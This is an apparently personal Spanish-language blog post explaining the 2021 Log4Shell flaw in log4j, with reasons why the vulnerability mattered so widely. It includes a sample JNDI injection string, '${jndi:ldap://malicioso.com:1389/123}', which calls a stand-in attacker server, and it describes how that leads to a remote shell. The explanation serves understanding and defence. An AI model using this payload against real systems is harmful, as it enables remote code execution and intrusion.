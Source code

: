 +++
title = "¿qué pasó con log4j?"
slug = "20211222125958771"
date = "2021-12-22T11:44:58-06:00"
[taxonomies]
tema = ["noticias"]
autor = ["Víctor Manuel Jáquez Leal"]
+++

Para estas alturas posiblemente todos ya estarán enterados del fallo de
seguridad en log4j\[1\], aunque creo que vale la pena repasarlo.

Todo software más o menos complejo registra los eventos que le
conciernen. La forma más simple de registrar estos eventos, sería
imprimir en la salida estándar o de error un mensaje, humanamente
legible, describiendo el evento en cuestión. Pero el registro de eventos
puede complicarse al grado de que existen bibliotecas de software
específicas que abstraen esta actividad. Hay bibliotecas de “logging”
(como se conoce al registro de eventos) para todos los lenguajes, y
log4j\[2\] es uno de los disponibles para Java.

¿En qué consiste el bug?

En pocas palabras, log4j “parsea” los mensajes a registrar en búsqueda
de variables que puede reemplazar. Por ejemplo, el programador loggea
este mensaje:

logger.info(“El usuario” + user + ” ha entrado”).

Entonces log4j parsea la cadena y sabe que la variable user, en el
estado actual de la aplicación es “ceyusa”, por lo que finalmente
escribe en bitácora

12:38:10.234 \[main\] INFO Main - El usuario ‘ceyusa’ ha entrado

Esto es muy útil, pero como todos los datos proveeidos por el usuario,
son potencialmente peligrosos, máxime si éstos viajan por red.

Supongamos que el usuario puede cambiar su nombre de usuario de “ceyusa”
a “${java:version}”. log4j parseará esa cadena y verá que es un programa
en java que ejectua, por lo que el resultado será:

12:38:10.234 \[main\] INFO Main - El usuario ‘Java version 1.8.0_213’ ha
entrado

Por otro lado, hay una cosa en Java que se llama JNDI: Java Naming and
Directory Interface\[3\]. Es una interfaz para indicar, a la máquina
virtual de Java, la localización de un recurso remoto, por ejemplo una
base de datos, un Enterprise Java Bean, etcétera. Uno de los usos más
comunes es obtener información de un directorio a través del protocol
LDAP.

En nuestro ejemplo, el usuario podría cambiar su nombre de usuario por
‘${jndi:ldap://malicioso.com:1389/123}’. Lo que haría log4j sería
parsear esa cadena y ejectuarla. Al usar la API de JNDI, sabrá que el
contenido de esa variable se encuentra en un servidor remoto, llamado
malicioso.com, usando el protocolo LDAP y obtendrá el registro con la
llave 123. Este servidor remoto puede estar bajo control del atacante y
devolverá una cadena que se ejecutará dentro de la máquina virtual de
Java que ejecuta de nuestra inocente aplicación, como, por ejemplo,
lanzar una terminal en un puerto TCP (el típico remote backdoor).

¿Por qué es tan reelevante?

1. Hay un montón de software en Java, legacy, sin mantener,
   ejecutándose en internet, usando una versión vulnerable de log4j.
2. Hay un montón de software en Java, mantenido, pero que tiene una
   dependencia fuerte a un framework que usa una versión vulnerable de
   log4j.
3. Hay demasiado software en Java, como en bancos, controladores
   aeropuertuarios, etc.

Finalmente, nos remite al cartón de XKCD\[4\] sobre tener dependencias
profundas de software, en sistemas complejos. O, al otro, clásico, sobre
no confiar, nunca, en lo absoluto, en las entradas del sistema\[5\].

Es más, hay quien toma esta situación como argumento para evitar esos
grantes frameworks totalizantes, y que sólo el lenguaje de programación
sea nuestro framework\[6\].

1. <https://nvd.nist.gov/vuln/detail/CVE-2021-44228>
2. <https://logging.apache.org/log4j/2.x/>
3. <https://docs.oracle.com/javase/tutorial/jndi/overview/index.html>
4. <https://xkcd.com/2347/>
5. <https://xkcd.com/327/>
6. <https://twitter.com/tomaka17/status/1470022487790571522>
